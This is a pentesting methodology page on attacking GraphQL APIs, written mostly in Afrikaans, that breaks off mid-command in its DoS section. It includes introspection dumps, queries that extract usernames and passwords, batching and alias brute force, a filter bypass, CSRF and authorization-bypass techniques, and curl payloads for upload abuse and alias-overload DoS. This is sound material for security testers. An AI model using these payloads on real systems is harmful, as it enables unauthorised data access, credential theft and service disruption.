

# GraphQL

{{#include ../../banners/hacktricks-training.md}}

## Inleiding

GraphQL word **uitgelig** as 'n **doeltreffende alternatief** vir REST API, en bied 'n vereenvoudigde benadering vir die navraag van data vanaf die backend. In teenstelling met REST, wat dikwels talle versoeke oor verskeie endpoints vereis om data te versamel, stel GraphQL die haal van al die vereiste inligting deur 'n **enkele versoek** moontlik. Hierdie stroomlynproses **bevoordeel ontwikkelaars** aansienlik deur die kompleksiteit van hul data-haalprosesse te verminder.

## GraphQL en Security

Met die koms van nuwe tegnologieë, insluitend GraphQL, ontstaan nuwe security kwesbaarhede ook. 'n Sleutelpunt om op te let is dat **GraphQL nie authentication meganismes by verstek insluit nie**. Dit is die ontwikkelaars se verantwoordelikheid om sulke security maatreëls te implementeer. Sonder behoorlike authentication kan GraphQL endpoints sensitiewe inligting aan ongeauthentikeerde users blootstel, wat 'n beduidende security risiko inhou.

### Directory Brute Force Attacks en GraphQL

Om blootgestelde GraphQL instances te identifiseer, word die insluiting van spesifieke paths in directory brute force attacks aanbeveel. Hierdie paths is:

- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

Die identifisering van oop GraphQL instances maak die ondersoek van ondersteunde queries moontlik. Dit is noodsaaklik om die data wat deur die endpoint toeganklik is, te verstaan. GraphQL se introspection stelsel vergemaklik dit deur die queries te beskryf wat 'n schema ondersteun. Vir meer inligting hieroor, verwys na die GraphQL dokumentasie oor introspection: [**GraphQL: A query language for APIs.**](https://graphql.org/learn/introspection/)

### Fingerprint

Die tool [**graphw00f**](https://github.com/dolevf/graphw00f) kan opspoor watter GraphQL engine op 'n server gebruik word en druk dan nuttige inligting vir die security auditor uit.

#### Universal queries <a href="#universal-queries" id="universal-queries"></a>

Om te kyk of 'n URL 'n GraphQL service is, kan 'n **universal query**, `query{__typename}`, gestuur word. As die response `{"data": {"__typename": "Query"}}` insluit, bevestig dit dat die URL 'n GraphQL endpoint huisves. Hierdie metode maak staat op GraphQL se `__typename` field, wat die type van die navraagde object openbaar.
```javascript
query{__typename}
```
### Basiese Enumerasie

Graphql ondersteun gewoonlik **GET**, **POST** (x-www-form-urlencoded) en **POST**(json). Alhoewel dit vir sekuriteit aanbeveel word om slegs json toe te laat om CSRF-aanvalle te voorkom.

#### Introspection

Om introspection te gebruik om schema-inligting te ontdek, query die `__schema` field. Hierdie field is beskikbaar op die root type van alle queries.
```bash
query={__schema{types{name,fields{name}}}}
```
Met hierdie query sal jy die naam van al die types wat gebruik word, vind:

.png>)
```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```
Met hierdie query kan jy al die tipes, hul velde, en hul arguments (en die type van die args) uittrek. Dit sal baie nuttig wees om te weet hoe om die database te query.

.png>)

**Errors**

Dit is interessant om te weet of die **errors** gaan **gewys** word, aangesien hulle nuttige **information** sal bydra.
```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```
.png>)

**Enumereer Databasis-skema via Introspection**

> [!TIP]
> If introspection is enabled but the above query doesn't run, try removing the `onOperation`, `onFragment`, and `onField` directives from the query structure.
```bash
#Full introspection query

query IntrospectionQuery {
__schema {
queryType {
name
}
mutationType {
name
}
subscriptionType {
name
}
types {
...FullType
}
directives {
name
description
args {
...InputValue
}
onOperation  #Often needs to be deleted to run query
onFragment   #Often needs to be deleted to run query
onField      #Often needs to be deleted to run query
}
}
}

fragment FullType on __Type {
kind
name
description
fields(includeDeprecated: true) {
name
description
args {
...InputValue
}
type {
...TypeRef
}
isDeprecated
deprecationReason
}
inputFields {
...InputValue
}
interfaces {
...TypeRef
}
enumValues(includeDeprecated: true) {
name
description
isDeprecated
deprecationReason
}
possibleTypes {
...TypeRef
}
}

fragment InputValue on __InputValue {
name
description
type {
...TypeRef
}
defaultValue
}

fragment TypeRef on __Type {
kind
name
ofType {
kind
name
ofType {
kind
name
ofType {
kind
name
}
}
}
}
```
Inlyn introspeksie-navraag:
```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```
The last code line is a graphql query that will dump all the meta-information from the graphql (objects names, parameters, types...)

.png>)

As introspection geaktiveer is, kan jy [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager) gebruik om al die opsies in ’n GUI te sien.

### Querying

Nou dat ons weet watter soort inligting binne die database gestoor is, kom ons probeer om **some values** te onttrek.

In die introspection kan jy vind **which object you can directly query for** (because you cannot query an object just because it exists). In die volgende image kan jy sien dat die "_queryType_" "_Query_" genoem word en dat een van die velde van die "_Query_" object "_flags_" is, wat ook ’n type van object is. Therefore kan jy die flag object query.


Let op dat die type van die query "_flags_" "_Flags_" is, en hierdie object soos hieronder gedefinieer is:

.png>)

Jy kan sien dat die "_Flags_" objects saamgestel is uit **name** en .**value** Dan kan jy al die names en values van die flags kry met die query:
```javascript
query={flags{name, value}}
```
Let daarop dat in geval die **object to query** ’n **primitive** **type** soos **string** is, soos in die volgende voorbeeld

.png>)

Jy kan dit eenvoudig query met:
```javascript
query = { hiddenFlags }
```
In ’n ander voorbeeld waar daar 2 objects binne die "_Query_" type object was: "_user_" en "_users_".\
As hierdie objects geen argument nodig het om te search nie, kon jy **al die inligting daarvan retrieve** deur net te **vra** vir die data wat jy wil hê. In hierdie voorbeeld van Internet kon jy die gestoorde usernames en passwords extract:

.png>)

Maar, in hierdie voorbeeld as jy dit probeer doen kry jy hierdie **error**:

.png>)

Dit lyk of dit op een of ander manier sal search met behulp van die "_**uid**_" argument van tipe _**Int**_.\
Hoe dit ook al sy, ons het dit reeds geweet, in die [Basic Enumeration](graphql.md#basic-enumeration) section was ’n query voorgestel wat vir ons al die nodige inligting gewys het: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

As jy na die image kyk wat verskaf is toe ek daardie query run het, sal jy sien dat "_**user**_" die **arg** "_**uid**_" van tipe _Int_ gehad het.

So, deur ’n bietjie ligte _**uid**_ bruteforce te doen het ek gevind dat in _**uid**=**1**_ ’n username en ’n password retrieved is:\
`query={user(uid:1){user,password}}`

.png>)

Let daarop dat ek **discovered** het dat ek vir die **parameters** "_**user**_" en "_**password**_" kon vra omdat as ek probeer om iets te soek wat nie bestaan nie (`query={user(uid:1){noExists}}`) kry ek hierdie error:

.png>)

En tydens die **enumeration phase** het ek ontdek dat die "_**dbuser**_" object as fields "_**user**_" en "_**password**_" gehad het.

**Query string dump trick (thanks to @BinaryShadow\_)**

As jy kan search volgens ’n string tipe, soos: `query={theusers(description: ""){username,password}}` en jy **search for an empty string** dan sal dit **all data dump**. (_Let op hierdie example hou nie verband met die example van die tutorials nie; vir hierdie example veronderstel dat jy kan search met "**theusers**" deur ’n String field genaamd "**description**"._).

### Searching

In hierdie setup bevat ’n **database** **persons** en **movies**. **Persons** word geïdentifiseer deur hul **email** en **name**; **movies** deur hul **name** en **rating**. **Persons** kan met mekaar friends wees en ook movies hê, wat relationships binne die database aandui.

Jy kan **search** vir persons **by** die **name** en hul emails kry:
```javascript
{
searchPerson(name: "John Doe") {
email
}
}
```
Jy kan **soek** na persone **volgens** die **naam** en hul **geabonneerde** **films** kry:
```javascript
{
searchPerson(name: "John Doe") {
email
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
Let op hoe dit aangedui word om die `name` van die `subscribedMovies` van die person te retrieve.

Jy kan ook **several objects op dieselfde tyd search**. In hierdie case word ’n search van 2 movies gedoen:
```javascript
{
searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
name
}
}r
```
Of selfs **verwantskappe van verskeie verskillende objects met behulp van aliases**:
```javascript
{
johnsMovieList: searchPerson(name: "John Doe") {
subscribedMovies {
edges {
node {
name
}
}
}
}
davidsMovieList: searchPerson(name: "David Smith") {
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
### Mutations

**Mutations word gebruik om veranderinge aan die server-side te maak.**

In die **introspection** kan jy die **gedeclareerde** **mutations** vind. In die volgende afbeelding word die "_MutationType_" "_Mutation_" genoem en die "_Mutation_" object bevat die name van die mutations (soos "_addPerson_" in hierdie geval):

.png>)

In hierdie setup bevat 'n **database** **persons** en **movies**. **Persons** word geïdentifiseer deur hul **email** en **name**; **movies** deur hul **name** en **rating**. **Persons** kan vriende met mekaar wees en ook movies hê, wat verhoudings binne die database aandui.

'n Mutation om nuwe movies binne die database te **create** kan soos die volgende een wees (in hierdie voorbeeld word die mutation `addMovie` genoem):
```javascript
mutation {
addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
movies {
name
rating
}
}
}
```
**Let op hoe beide die waardes en tipe data in die navraag aangedui word.**

Daarbenewens ondersteun die databasis ’n **mutation**-operasie, genaamd `addPerson`, wat die skep van **persons** saam met hul assosiasies na bestaande **friends** en **movies** toelaat. Dit is belangrik om daarop te let dat die friends en movies reeds in die databasis moet bestaan voordat hulle aan die nuutgeskepte person gekoppel word.
```javascript
mutation {
addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
person {
name
email
friends {
edges {
node {
name
email
}
}
}
subscribedMovies {
edges {
node {
name
rating
releaseYear
}
}
}
}
}
}
```
### Directive Overloading

Soos verduidelik in [**een van die vulns beskryf in hierdie report**](https://www.landh.tech/blog/20240304-google-hack-50000/), impliseer ’n directive overloading om ’n directive selfs miljoene kere aan te roep om die server te laat operasies mors totdat dit moontlik is om dit te DoS.

### Batching brute-force in 1 API request

Hierdie inligting is geneem uit [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/).\
Authentication deur GraphQL API met **tegelyk baie queries te stuur met verskillende credentials** om dit te toets. Dit is ’n klassieke brute force attack, maar nou is dit moontlik om meer as een login/password-paar per HTTP request te stuur weens die GraphQL batching feature. Hierdie benadering sou eksterne rate monitoring applications laat dink dat alles in orde is en daar is geen brute-forcing bot wat probeer om passwords te raai nie.

Hieronder kan jy die eenvoudigste demonstrasie van ’n application authentication request vind, met **3 verskillende email/password-pare op ’n slag**. Uiteraard is dit moontlik om duisende in ’n enkele request op dieselfde manier te stuur:

.png>)

Soos ons uit die response screenshot kan sien, het die eerste en die derde requests _null_ teruggestuur en die ooreenstemmende inligting in die _error_ afdeling weerspieël. Die **tweede mutation het die korrekte authentication** data gehad en die response het die korrekte authentication session token.

 (1).png>)

## GraphQL Without Introspection

Meer en meer **graphql endpoints skakel introspection af**. Die errors wat graphql egter gooi wanneer ’n onverwante request ontvang word, is genoeg vir tools soos [**clairvoyance**](https://github.com/nikitastupin/clairvoyance) om die meeste van die schema te herskep.

Verder **observeer** die Burp Suite extension [**GraphQuail**](https://github.com/forcesunseen/graphquail) **GraphQL API requests wat deur Burp gaan** en **bou** ’n interne GraphQL **schema** met elke nuwe query wat dit sien. Dit kan ook die schema vir GraphiQL en Voyager blootstel. Die extension gee ’n fake response terug wanneer dit ’n introspection query ontvang. As gevolg hiervan wys GraphQuail al die queries, arguments, en fields wat beskikbaar is vir gebruik binne die API. Vir meer inligting [**kyk hierna**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema).

’n Goeie **wordlist** om [**GraphQL entities te ontdek kan hier gevind word**](https://github.com/Escape-Technologies/graphql-wordlist?).

### Bypassing GraphQL introspection defences <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

Om restrictions op introspection queries in APIs te omseil, is dit effektief om ’n **special character na die `__schema` keyword** in te voeg. Hierdie metode misbruik algemene developer toesig in regex patterns wat daarop gemik is om introspection te blokkeer deur op die `__schema` keyword te fokus. Deur karakters soos **spaces, new lines, en commas** by te voeg, wat GraphQL ignoreer maar dalk nie in regex verreken word nie, kan restrictions omseil word. Byvoorbeeld, ’n introspection query met ’n newline ná `__schema` kan sulke defenses omseil:
```bash
# Example with newline to bypass
{
"query": "query{__schema
{queryType{name}}}"
}
```
As onsuksesvol is, oorweeg alternatiewe request-methodes, soos **GET requests** of **POST with `x-www-form-urlencoded`**, aangesien beperkings dalk net op POST requests van toepassing is.

### Probeer WebSockets

Soos genoem in [**hierdie talk**](https://www.youtube.com/watch?v=tIo_t5uUK50), kyk of dit moontlik mag wees om via WebSockets aan graphQL te koppel, aangesien dit jou dalk kan toelaat om ’n potensiële WAF te omseil en die websocket-communicatie die schema van die graphQL te laat leak:
```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
var GQL_CALL = {
extensions: {},
query: `
{
__schema {
_types {
name
}
}
}`,
}

var graphqlMsg = {
type: "GQL.START",
id: "1",
payload: GQL_CALL,
}
ws.send(JSON.stringify(graphqlMsg))
}
```
### **Ontdek van Blootgestelde GraphQL-strukture**

Wanneer introspection gedeaktiveer is, is die ondersoek van die webwerf se bronkode vir voorafgelaaide queries in JavaScript libraries ’n nuttige strategie. Hierdie queries kan gevind word met die `Sources`-oortjie in developer tools, wat insigte bied in die API se schema en moontlik **blootgestelde sensitiewe queries** openbaar. Die commands om binne die developer tools te soek is:
```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```
### Error-based schema reconstruction & engine fingerprinting (InQL v6.1+)

Wanneer introspection geblokkeer is, kan **InQL v6.1+** nou die bereikbare schema suiwer uit error feedback rekonstrueer. Die nuwe *schema bruteforcer* batch candidate field/argument names uit ’n configureerbare wordlist en stuur hulle in multi-field operations om HTTP chatter te verminder. Nuttige error patterns word dan outomaties geharvest:

- `Field 'bugs' not found on type 'inql'` bevestig die bestaan van die parent type terwyl dit ongeldige field names weggooi.
- `Argument 'contribution' is required` wys dat ’n argument mandatory is en onthul die spelling daarvan.
- Suggestion hints soos `Did you mean 'openPR'?` word teruggevoer in die queue as validated candidates.
- Deur doelbewus values met die verkeerde primitive te stuur (bv. integers vir strings), lok die bruteforcer type mismatch errors uit wat die werklike type signature leak, insluitend list/object wrappers soos `[Episode!]`.

Die bruteforcer recurs steeds oor enige type wat nuwe fields oplewer, so ’n wordlist wat generic GraphQL names met app-specific guesses meng, sal uiteindelik groot dele van die schema map sonder introspection. Runtime word meestal beperk deur rate limiting en candidate volume, so die fyninstelling van die InQL settings (wordlist, batch size, throttling, retries) is krities vir meer stealthy engagements.

In dieselfde release stuur InQL ’n **GraphQL engine fingerprinter** (deur signatures van tools soos `graphw00f` te gebruik). Die module stuur doelbewus ongeldige directives/queries en klassifiseer die backend deur die presiese error text te match. Byvoorbeeld:
```graphql
query @deprecated {
__typename
}
```
- Apollo antwoord met `Directive "@deprecated" may not be used on QUERY.`
- GraphQL Ruby antwoord `'@deprecated' can't be applied to queries`.

Sodra ’n engine herken word, toon InQL die ooreenstemmende inskrywing uit die [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix), wat toetsers help om swakhede te prioritiseer wat saam met daardie bedienerfamilie kom (default introspection behavior, depth limits, CSRF gaps, file uploads, ens.).

Laastens, **automatic variable generation** verwyder ’n klassieke blokkade wanneer daar na Burp Repeater/Intruder gepivot word. Wanneer ’n operation ’n variables JSON vereis, voeg InQL nou sinvolle defaults in sodat die request by die eerste stuur deur schema validation slaag:
```text
"String"  -> "exampleString"
"Int"     -> 42
"Float"   -> 3.14
"Boolean" -> true
"ID"      -> "123"
ENUM      -> first declared value
```
Geneste input-objekte erf die selfde mapping, so jy kry onmiddellik 'n sintakties en semanties geldige payload wat gefuzz kan word vir SQLi/NoSQLi/SSRF/logic bypasses sonder om elke argument handmatig te reverse-engineer.

## CSRF in GraphQL

As jy nie weet wat CSRF is nie, lees die volgende bladsy:


{{#ref}}
../../pentesting-web/csrf-cross-site-request-forgery.md
{{#endref}}

Daar buite sal jy verskeie GraphQL endpoints kan vind **wat sonder CSRF tokens gekonfigureer is.**

Let daarop dat GraphQL request gewoonlik via POST requests gestuur word met die Content-Type **`application/json`**.
```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```
Maar die meeste GraphQL-eindpunte ondersteun ook **`form-urlencoded` POST requests:**
```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```
Daarom, aangesien CSRF-versoeke soos die vorige een **sonder preflight requests** gestuur word, is dit moontlik om **veranderings** in die GraphQL uit te voer deur CSRF te misbruik.

Let egter daarop dat die nuwe verstek cookie-waarde van die `samesite`-vlag van Chrome `Lax` is. Dit beteken dat die cookie slegs vanaf ’n derdeparty-web in GET-versoeke gestuur sal word.

Let daarop dat dit gewoonlik moontlik is om die **query**-**request** ook as ’n **GET**-**request** te stuur en die CSRF token mag dalk nie in ’n GET-request gevalideer word nie.

Ook kan die misbruik van ’n [**XS-Search**](../../pentesting-web/xs-search/index.html) **attack** moontlik wees om inhoud uit die GraphQL-endpoint te exfiltrate deur die gebruiker se credentials te misbruik.

Vir meer inligting **kyk na die** [**oorspronklike plasing hier**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html).

### Multipart upload abuse (`Upload` scalar)

Baie GraphQL-stacks implementeer die **GraphQL multipart request specification** om `Upload` scalars te ondersteun. Vanuit ’n offensiewe oogpunt, wanneer jy ook al `scalar Upload`, `multipart/form-data`, of mutations soos `uploadAvatar`, `createMediaItem`, of `import*` sien, moet jy meer as basiese lêer-validasie toets:

- **CSRF via multipart**: `multipart/form-data` is ’n **simple request**, so browsers kan upload mutations cross-origin **sonder preflight** stuur. Dit is veral relevant wanneer die application elders beweer dat dit slegs JSON aanvaar.
- **Upload variable reuse**: GraphQL laat toe dat dieselfde variable verskeie kere verwys word. As die backend nie enkelgebruik upload variables afdwing nie, kan hergebruik van een lêerstroom in verskeie resolver arguments dubbele lees, voortydige stream-uitputting, of server-side buffering/geheue-druk veroorsaak.
- **Orphan parts / excess files**: sommige multipart parsers buffer elke ontvangde lêer voordat hulle kyk of dit werklik in die `map` field verwys word. Om groot ongebruikte dele te stuur is daarom ’n goeie manier om disk/RAM-uitputting te toets.

Vinnige toets vir **variable reuse**:
```bash
curl -X POST https://target/graphql \
-F 'operations={"query":"mutation($f: Upload!){a:uploadAvatar(file:$f){id} b:uploadAvatar(file:$f){id}}","variables":{"f":null}}' \
-F 'map={"0":["variables.f"]}' \
-F '0=@/tmp/poc.bin'
```
Probeer ook misvormde `map` objects met **ekstra lêerdele** (byvoorbeeld ’n tweede deel wat nêrens na verwys word nie) en kyk vir verskille in reaksietyd, tydelike-lêergroei, of reverse-proxy-foute.

## Cross-site WebSocket hijacking in GraphQL

Soortgelyk aan CRSF vulnerabilities wat graphQL misbruik, is dit ook moontlik om ’n **Cross-site WebSocket hijacking te doen om ’n authentication met GraphQL met onbeskermde cookies te misbruik** en ’n gebruiker te laat onverwags aksies in GraphQL uitvoer.

Vir meer inligting, kyk na:


{{#ref}}
../../pentesting-web/websocket-attacks.md
{{#endref}}

## Authorization in GraphQL

Baie GraphQL functions wat op die endpoint gedefinieer is, mag dalk net die authentication van die requester nagaan, maar nie authorization nie.

Deur query input variables te verander, kan dit lei tot sensitiewe account besonderhede wat [leak](https://hackerone.com/reports/792927).

Mutation kan selfs lei tot account takeover deur te probeer om ander account data te verander.
```javascript
{
"operationName":"updateProfile",
"variables":{"username":INJECT,"data":INJECT},
"query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```
### Bypass authorization in GraphQL

[Chaining queries](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln) saam kan 'n swak authentication system omseil.

In die onderstaande voorbeeld kan jy sien dat die operation "forgotPassword" is en dat dit net die forgotPassword query wat daarmee geassosieer word, moet execute. Dit kan omseil word deur 'n query aan die einde by te voeg; in hierdie geval voeg ons "register" en 'n user variable by vir die system om as 'n nuwe user te register.

<figure><figcaption></figcaption></figure>

## Persisted queries / APQ are **not** a security boundary

'n Algemene blue-team aanname is dat **Automatic Persisted Queries (APQ)** arbitrary GraphQL keer om die server te bereik omdat clients normaalweg net 'n SHA-256 hash stuur. In practice is APQ meestal 'n **bandwidth/latency optimization**, nie 'n safelist nie:

1. stuur net die hash en `extensions.persistedQuery`
2. as die server antwoord met `PersistedQueryNotFound`, stuur dieselfde request weer **met die volle `query` string**
3. baie Apollo-style deployments sal dit execute en daardie operation cache vir latere requests

Dit beteken dat as die target net APQ geaktiveer het, kan jy dikwels steeds **nuwe introspection queries, aliases, deep fragments, of brute-force mutations** op die eerste request submit. Ware safelisting vereis gewoonlik 'n **pre-registered persisted-query list** en die verwerping van raw operation strings.
```json
{
"operationName": "probe",
"variables": null,
"extensions": {
"persistedQuery": {
"version": 1,
"sha256Hash": "<unknown-hash>"
}
}
}
```
As die response `PersistedQueryNotFound` bevat, probeer onmiddellik weer deur ’n volledige `query`-veld by te voeg. Let ook daarop dat sommige clients **GET** gebruik vir hash-only APQ requests en eers terugval na ’n volledige query wanneer die hash misluk, so WAF- of cache-reëls wat rondom die hash-only pad gebou is, kan die gevaarlike request mis.

## Omseil Rate Limits met Aliases in GraphQL

In GraphQL is aliases ’n kragtige feature wat **die benoeming van properties eksplisiet** moontlik maak wanneer ’n API request gemaak word. Hierdie vermoë is veral nuttig om **veelvuldige instances van dieselfde type** object binne ’n enkele request te herwin. Aliases kan gebruik word om die beperking te oorkom wat keer dat GraphQL objects veelvuldige properties met dieselfde naam het.

Vir ’n gedetailleerde begrip van GraphQL aliases, word die volgende resource aanbeveel: [Aliases](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

Terwyl die primêre doel van aliases is om die behoefte aan talle API calls te verminder, is ’n onbedoelde use case geïdentifiseer waar aliases gebruik kan word om brute force attacks op ’n GraphQL endpoint uit te voer. Dit is moontlik omdat sommige endpoints beskerm word deur rate limiters wat ontwerp is om brute force attacks te verydel deur die **aantal HTTP requests** te beperk. Hierdie rate limiters hou egter dalk nie rekening met die aantal operations binne elke request nie. Aangesien aliases die insluiting van veelvuldige queries in ’n enkele HTTP request toelaat, kan dit sulke rate limiting measures omseil.

Oorweeg die voorbeeld hieronder, wat illustreer hoe ge-aliaste queries gebruik kan word om die geldigheid van store discount codes te verifieer. Hierdie metode kan rate limiting omseil omdat dit verskeie queries in een HTTP request saamvoeg, wat moontlik die verifikasie van talle discount codes gelyktydig toelaat.
```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
isvalidDiscount(code:$code){
valid
}
isValidDiscount2:isValidDiscount(code:$code){
valid
}
isValidDiscount3:isValidDiscount(code:$code){
valid
}
}
```
## DoS in GraphQL

### Alias Overloading

**Alias Overloading** is a GraphQL vulnerability where attackers overload a query with many aliases for the same field, causing the backend resolver to execute that field repeatedly. This can overwhelm server resources, leading to a **Denial of Service (DoS)**. For example, in the query below, the same field (`expensiveField`) is requested 1,000 times using aliases, forcing the backend to compute it 1,000 times, potentially exhausting CPU or memory:
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```
Om dit te versag, implementeer alias count-limiete, query complexity analysis, of rate limiting om resource abuse te voorkom.

### **Array-based Query Batching**

**Array-based Query Batching** is ’n vulnerability waar ’n GraphQL API batching van multiple queries in ’n enkele request toelaat, wat ’n attacker in staat stel om ’n groot aantal queries gelyktydig te stuur. Dit kan die backend oorweldig deur al die batched queries parallel uit te voer, buitensporige resources (CPU, memory, database connections) te verbruik en moontlik lei tot ’n **Denial of Service (DoS)**. As daar geen limiet bestaan op die aantal queries in ’n batch nie, kan ’n attacker dit exploit om service availability te degradeer.
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
